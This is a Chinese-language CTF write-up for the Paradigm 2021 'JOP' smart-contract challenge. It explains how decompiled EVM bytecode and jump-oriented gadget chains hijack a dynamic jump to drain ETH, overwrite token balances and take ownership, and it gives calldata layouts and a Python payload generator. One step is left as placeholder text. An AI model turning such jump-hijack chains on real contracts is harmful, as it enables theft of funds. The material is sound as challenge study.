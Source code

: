 ```yaml
---
layout: post
title:  "Paradigm 2021 JOP题解"
date:   2021-07-19 11:07:32 +0800
categories: paradigm
---
```

### 逻辑
1. panoramix反编译可以得到大部分逻辑，有一处动态跳转由```stor11 & 0xffffffff```决定目的地址，初始```stor11 == 0x01a300001074```
2. 修改panoramix代码强制赋值跳转地址0x1074（4212）之后可以得到正常情况下的完整流程，同时打印跳转后的stack: 

```python
[calldata[0:4], 0x774, 0xed0, 0x1d39, 'callvalue']
# 对应于
[value, 0x1d39, ?, ?, ?][::-1]
```
3. 手动修改合约的时候如果需要补全字节码（避免JUMP出问题）可以填JUMPDEST，0x5b
4. 先调用```27f83350(0xc4a)```设置跳转地址为setowner，然后调用```buyTokens()+player```尝试，发现交易失败，没关系，通过truffle debug调试无源码合约，```;```表示按指令步进，到末尾的栈发现跳转地址是```callvalue```导致跳转出错，同时缺少了load calldata导致sstore(6)的value是0，考虑更换stor11和callvalue

### 解题
1. Solidity语言是利用栈传递参数和返回值的，例如，对如下的合约而言

```solidity
contract Test {
    function fun1(uint a, uint b) returns(uint c, uint d) {
        // ....
    }
    function fun2(uint x) returns(uint y, uintz) {
        fun1(ccc, ddd);
    }
}
```
当fun2调用自身的函数fun1（不走call）时，调用前的堆栈如下（从底到顶）
```
[...., ret_addr(a JUMPDEST), ccc, ddd, fun1_addr(a JUMPDEST)]
```
这样，通过JUMP调用fun1，调用完成即将返回fun2的堆栈如下（从低到顶）
```
[...., c, d, ret_addr(a JUMPDEST)]
```
这样，通过JUMP可以返回fun2，同时堆栈上按顺序push了返回值
2. 我们的目标是在栈上部署一系列调用，使得栈看上去有如下构造
```
(栈底)
...
JSTOP(as ret_addr of FUNC2)
VAR1 of FUNC2
...
VARN of FUNC2
FUNC2(as ret_addr of FUNC1)
VAR1 of FUNC1
VAR2 of FUNC1
...
VARN of FUNC1
FUNC1
JJUMP x N(N >= 0, can be multiple times)
JJUMP(start of JOP-Chain)
(栈顶)
```
其中，JSTOP是```JUMPDEST; STOP```块，能立刻停止程序保证正常结束，JJUMP是```JUMPDEST; JUMP```块，能连续在栈部署的地址上进行跳跃保证缓冲。
栈顶部元素可以直接是FUNC1，只要能找到入口点是栈顶的JUMP即可
3. 为了部署栈上元素，首先需要找到返回值数量较多（且大于传入值）的函数LOADER，通过反复JUMP（LOADER的返回地址）到LOADER上可以依靠LOADER提供的逻辑在栈上部署一系列LOADER的返回值，最后LOADER返回到JOP-Chain开始的地方即可开始一系列函数调用


### 通用分析
1. ```panoramix --verbose```反编译可以打印堆栈，首先使用downloader下载运行时bytecode并反编译
2. 使用jopgadget检索需要的块，比如```jopgadget test目录 show 2 3 [true]```可以查看长度大于等于2小于等于3的块，true表示打印确定的跳转块(PUSH紧跟JUMP)
3. 使用jopgadget查看地址所在的块，比如```jopgadget test addr 0x123```
4. 使用debug_traceTransaction分析实际执行流，```w3.provider.make_request('debug_traceTransaction', [ TX_HASH, {}])```

### 本题构造
1. 由```panoramix --verbose```反编译结果可知（```jump to a parameter computed at runtime```），```buyTokens```函数最后跳转地址为stor11，且栈顶元素如下
```
[uint32(call.func_hash) >> 224, 1908, 3792, 7481, call.value, stor11]
```
相当于可以调用一个参数为0或参数为1（call.value可控但不能太大，比如到不了地址的大小）函数，其入口JUMPDEST为stor11，其返回地址为call.value（0参数）或7481（1参数），7481对应一个JJUMP块所以还能返回到“函数的返回值”上，问题不大
2. blabla
3. 转账
```
[stop, jj, 0x84, load,
int(player,16), balance(challange)+4, send_eth, jj]
```
4. 清空setup的token，考虑到```transferFrom(from, to, value)```函数，可以跳到检查caller完毕，执行```balanceOf[from] -= value```处，由反编译结果
```
...
  # [5393] sstore
  balanceOf[addr(_from)] -= _value
  #        [uint32(call.func_hash) >> 224, 746, addr(cd[4]), addr(cd[36]), cd[68], 0, 2382, addr(cd[4]), addr(cd[36]), cd[68], ('storage', 256, 0, ('var', '_6')) - cd[68]]
...
```
可得实际操作发生在pc=5393所在的块，复制此块代码用改版的panoramix模拟运行可得

```
入口14d0
[sta[0], sta[1], sta[2], sta[3], sta[4]]

逻辑
stor0[addr(sta[1])] = sta[4]

出口
略
```

可以看到此处不是```-=```而是```=```赋值，那么构造的栈应该是

```
[stop, setup, player, padding, 0, 0x14d0]
```

由于load参数只允许第一个值为0，所以要多load+pad，构造的calldata如下

```
[stop, jj, 0x84, load,
int(setup,16),jj,0x104,load,
int(player,16),jj,0x184,load,
pad,jj,0x204,load,
0,trans,jj,jj]
```
5. 更换owner，这里要跳两次而且跳完记得跳到转账（因为之前的操作又给合约打钱了），相当于跳三次，那么最好做一个通用的JOP生成

```python
def want_stack(stack):
     every4 = '(' + ('uint256,' * 4)[:-1] + ')'
     res = ""
     cnt = 0x84
     for x in stack:
         res += encode_single(every4, [x,jj,cnt,load]).hex()
         cnt += 0x80 # 一次load 4个0x20
     res += encode_single(every4, [jj,jj,jj,jj]).hex()
     return res
```
然后根据分析得到的set owner和accept owner入口点（见通用分析部分）生成payload并发送

```python
set_owner = 0x102a # pop 1, push 0
accept = 0xc4a # pop 0, push 0
payload = want_stack([stop,int(player,16),balance(challange)+4,send_eth,accept,dead_address,set_owner])
```